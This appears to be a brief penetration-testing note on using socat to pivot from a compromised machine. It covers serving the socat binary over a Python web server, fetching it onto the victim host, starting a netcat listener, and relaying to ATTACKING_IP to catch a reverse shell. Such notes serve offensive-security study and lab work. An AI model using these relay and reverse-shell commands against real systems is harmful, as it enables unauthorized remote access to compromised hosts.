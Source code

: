 #### Useful binaries 
https://github.com/andrew-d/static-binaries

#### Socat 
>If we have gain access to a machine then socat can encrypted create a relay on compromised machine and we can get a reverse shell on another machine and socat forwards to our machine.
>Can be used in both linux and windows systems.
>Can be used to create encrypted port forward and relays.
```
sudo python3 -m http.server 80
Download the binary in compromised host using curl/wget.
```

##### In local machine 
>nc -nvlp 7000

##### In Compromised Machine
>./socat tcp-l:8000 tcp:ATTACKING_IP:7000 &

#### Killing Socat Connections
```
jobs
kill PID
```
